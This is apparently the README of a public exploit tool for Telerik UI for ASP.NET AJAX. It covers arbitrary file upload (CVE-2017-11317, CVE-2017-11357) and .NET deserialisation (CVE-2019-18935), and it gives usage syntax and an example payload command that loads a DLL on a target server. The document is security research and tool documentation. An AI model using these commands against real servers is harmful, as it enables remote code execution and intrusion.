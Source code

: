 # RAU_crypto
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)

Combined exploit for Telerik UI for ASP.NET AJAX.
- File upload for CVE-2017-11317 and CVE-2017-11357 - will automatically upload the file
- .NET deserialisation for CVE-2019-18935

For exploitation to work, you generally need a version with hard coded keys, or you need to know the key, for example if you can disclose the contents of web.config. The exploit also allows for straightforward decryption and encryption of the rauPostData used with Telerik.Web.UI.WebResource.axd?type=rau

## Requirements
- python >= 3.6 with pycryptodome (https://www.pycryptodome.org/en/latest/src/installation.html) - installed with `pip3 install pycryptodome` or `pip3 install pycryptodomex`

## Published on exploit-db (old version)
- https://www.exploit-db.com/exploits/43874/

## See also
My other Telerik UI exploit (for CVE-2017-9248) will probably also be of interest. It is available here:
- https://github.com/bao7uo/dp_crypto

## To do
- [x] Missing HMAC functionality for later versions.
- [x] Ability to specify custom key.
- [ ] Command line argument for execution of a mixed mode dll (in the meantime use the example .NET deserialisation payload provided below).
- [ ] Separate utility for testing mixed mode dll.
- [x] Provide source code/compilation instructions for mixed mode dll.
- [ ] Brute force versions.

Note - the last four items are complete but not released.

## Vulnerabilities
The file upload (CVE-2017-11317) vulnerability was discovered by others, I believe credits due to @straight_blast @pwntester @olekmirosh . Shortly after it was announced, I encountered the Telerik library during the course of my work, so I researched it and the vulnerability and wrote this exploit in July 2017. I also reported CVE-2017-11357 for the related insecure direct object reference.

https://www.telerik.com/support/kb/aspnet-ajax/upload-%28async%29/details/insecure-direct-object-reference

The .NET deserialisation (CVE-2019-18935) vulnerability was discovered by [@mwulftange]( https://github.com/mwulftange ).

https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization

## Usage
```
$ ./RAU_crypto.py -h

RAU_crypto by Paul Taylor / @bao7uo 
CVE-2017-11317, CVE-2019-18935 - Telerik RadAsyncUpload hardcoded keys / arbitrary file upload / .NET deserialisation

Usage:

Decrypt a ciphertext:               -d ciphertext
Decrypt rauPostData:                -D rauPostData
Encrypt a plaintext:                -e plaintext

Generate file upload rauPostData:   -E c:\\destination\\folder Version
Generate all file upload POST data: -p c:\\destination\\folder Version ../local/filename
Upload file:                        -P c:\\destination\\folder Version c:\\local\\filename url [proxy]

Generate custom payload POST data : -c partA partB
Send custom payload:                -C partA partB url [proxy]

Test Responder/Burp Collaborator    -R lhost url [proxy]

Example URL:               http://target/Telerik.Web.UI.WebResource.axd?type=rau
Example Version:           2016.2.504
Example optional proxy:    127.0.0.1:8080

N.B. Advanced settings e.g. custom keys or PBKDB algorithm can be found by searching source code for: ADVANCED_SETTINGS

$
```
## Example - decryption
![Decrypt screenshot](images/decrypt_screenshot.png)

## Example - arbitrary file uplaod
![Upload screenshot](images/upload_screenshot.png)

## Custom payload (.NET deserialisation)

For details on custom payloads for .NET deserialisation, there is a great article by [@mwulftange]( https://github.com/mwulftange ) who discovered this vulnerability on the Code White blog at the following link.

- https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html

Update - There is an alternative exploit by Caleb Gross [@noperator]( https://github.com/noperator/CVE-2019-18935 ), which incorporates features from this exploit, with a great blog article explaining everything. Thanks also to Caleb for contributing to RAU_Crypto.
- https://know.bishopfox.com/research/cve-2019-18935-remote-code-execution-in-telerik-ui

Other relevant links.

- https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf
- https://threatvector.cylance.com/en_us/home/implications-of-loading-net-assemblies.html
- https://thewover.github.io/Mixed-Assemblies/

Example .NET deserialisation payload:

```
$ ./RAU_crypto.py -C '{"Path":"file:///c:/users/public/documents/mixedmode64.dll"}' 'System.Configuration.Install.AssemblyInstaller, System.Configuration.Install, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' http://target/Telerik.Web.UI.WebResource.axd?type=rau
```

For mixed Mode DLL, see my other github repo:
- https://github.com/bao7uo/MixedUp

Special thanks to [@irsdl]( https://github.com/irsdl ) who inspired the custom payload feature.
